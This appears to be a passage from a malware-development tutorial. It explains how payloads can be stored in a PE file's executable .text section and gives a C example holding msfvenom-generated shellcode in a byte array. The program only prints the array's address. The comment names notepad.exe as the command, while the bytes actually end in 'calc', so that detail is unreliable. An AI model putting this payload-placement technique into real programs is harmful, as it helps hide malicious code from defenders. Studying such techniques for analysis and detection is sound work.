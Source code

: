 ### .text

The `.text` section of a PE file contains the executable code of the program, and stores all of the machine instructions (compiled code) that the CPU executes when the program runs. The `AddressOfEntryPoint` header field points to the specific offset within the `.text` section where execution begins.

The `.text` section is generally marked as read-only and marked with memory protection flags like `RX`. What this means is that storing payloads in the `.text` section is different to storing it in the `.data` or `.rdata` sections via declaring a random varaible. Instead, the malware author would need to directly stipulate that the payload should be stored in the `.text` section by instructing the compiler to save it there. The code block below shows a simple implementation of this technique.

```c 
#include <Windows.h>
#include <stdio.h>

// shellcode generated via msfvenom
// msfvenom -p windows/x64/exec CMD=notepad.exe -f c 
// payload saved in the .text section
#pragma section(".text")
__declspec(allocate(".text")) const unsigned char Text_RawData[] = {
	0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51,
	0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52,
	0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 0x8B, 0x72,
	0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41,
	0x01, 0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B,
	0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
	0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
	0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41,
	0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1,
	0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
	0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44,
	0x8B, 0x40, 0x1C, 0x49, 0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01,
	0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 0x41, 0x59,
	0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
	0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48,
	0xBA, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D,
	0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B, 0x6F, 0x87, 0xFF, 0xD5,
	0xBB, 0xE0, 0x1D, 0x2A, 0x0A, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
	0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0,
	0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89,
	0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x00
};

int main() {

	printf("[i] Text_RawData var : 0x%p \n", Text_RawData);
	printf("[#] Press <Enter> To Quit ...");
	getchar();
	return 0;
}
```
